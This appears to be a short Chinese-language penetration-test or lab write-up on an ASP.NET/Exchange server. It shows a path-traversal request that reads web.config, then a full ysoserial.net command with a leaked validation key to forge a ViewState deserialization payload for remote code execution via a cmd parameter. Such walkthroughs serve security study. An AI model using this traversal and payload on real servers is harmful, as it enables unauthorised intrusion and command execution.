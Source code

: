 例如包含`web.config`? `ImgLoad.aspx?path=../../web.config`，直接用view-source下载下来。

这里已知一个RCE洞，可以使用`ysoserial`来反序列化。微软官方是这么描述的。

> #### Microsoft Exchange 验证密钥远程执行代码漏洞
>
> 当服务器在安装时无法正确创建唯一密钥时，Microsoft Exchange Server 中将存在一个远程执行代码漏洞。
>
> 知道验证密钥后，具有邮箱的认证用户可以传递要由 Web 应用程序反序列化的任意对象，该 Web 应用程序以“系统”身份运行。

现在利用刚刚的`web.config`构造payload反序列化后进行远程代码执行。

```bash
.\ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "ExploitClass.cs;./System.dll;./System.Web.dll" --generator="CA0B0334" --validationalg="SHA1" --validationkey="47A7D23AF52BEF07FB9EE7BD395CD9E19937682ECB288913CE758DE5035CF40DC4DB2B08479BF630CFEAF0BDFEE7242FC54D89745F7AF77790A4B5855A08EAC9"
```

将payload用post方法传入`__VIEWSTATE`中，再使用`cmd`参数用来执行指令即可。



工具：

[ysoserial](https://github.com/pwntester/ysoserial.net)

参考：

[玩轉 ASP.NET VIEWSTATE 反序列化攻擊、建立無檔案後門](https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/)





